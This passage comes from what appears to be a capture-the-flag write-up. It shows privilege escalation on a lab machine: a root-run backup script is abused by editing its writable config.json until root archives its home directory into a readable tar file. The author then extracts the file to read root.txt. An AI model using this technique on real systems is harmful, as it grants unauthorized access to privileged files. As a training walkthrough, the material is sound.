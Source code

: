 ```bash
tar -rf $dest/backup.tar $users >/dev/null
tar -rf $dest/backup.tar $root >/dev/null
echo "BACKUP FINISHED"
else
echo "Weather is cool !"
fi

tally@stardust:/opt$ cat config.json 
{
  "latitude":  -18.48,
  "longitude": -70.33
}
```

This file appears to collect the elevation of a specific point using its latitude and longitude collection from the config.json files. If the elevation is greater than 1000 a backup of the root directory is done. Notice that we have write privileges on the config.json file let's change these coordinates to ensure that the elevation of the area will be greater than 1000 so that the backup is performed.
```bash
tally@stardust:/opt$ curl  -s "https://api.open-meteo.com/v1/forecast?latitude=50&longitude=100&hourly=rain" | jq .elevation
1747
tally@stardust:/opt$ nano config.json 
tally@stardust:/opt$ cat config.json 
{
  "latitude":  50,
  "longitude": 100
}
```

After waiting for a certain time we will notice that the backup file has been created and that we have read access to it.
```bash
tally@stardust:/opt$ ls -l /var/backups/ 
total 1256
<SNIP>
-rw-r--r-- 1 root root 133120 Sep 20 21:59 backup.tar
-rw-r--r-- 1 root root      0 May  8  2023 dpkg.arch.0
<SNIP>
```

Let's de-archive the backup file and read important files in the root directory.
```bash
tally@stardust:/opt$ cp  /var/backups/backup.tar  /tmp
tally@stardust:/opt$ cd /tmp
tally@stardust:/tmp$ ls -la
total 176
<SNIP>
-rw-r--r--  1 tally tally 133120 Sep 20 22:01 backup.tar
<SNIP>
tally@stardust:/tmp$ tar -xf backup.tar 
tally@stardust:/tmp$ ls -la
<SNIP>
-rw-r--r--  1 tally tally 133120 Sep 20 22:01 backup.tar
drwxr-xr-x  3 tally tally   4096 Sep 20 22:02 home
-rwxr-xr-x  1 tally tally    738 Sep 20 21:57 meteo
drwx------  4 tally tally   4096 May  8  2023 root
<SNIP>
tally@stardust:/tmp$ cd root
tally@stardust:/tmp/root$ ls -l
total 4
-rwx------ 1 tally tally 33 Feb  6  2023 root.txt
```
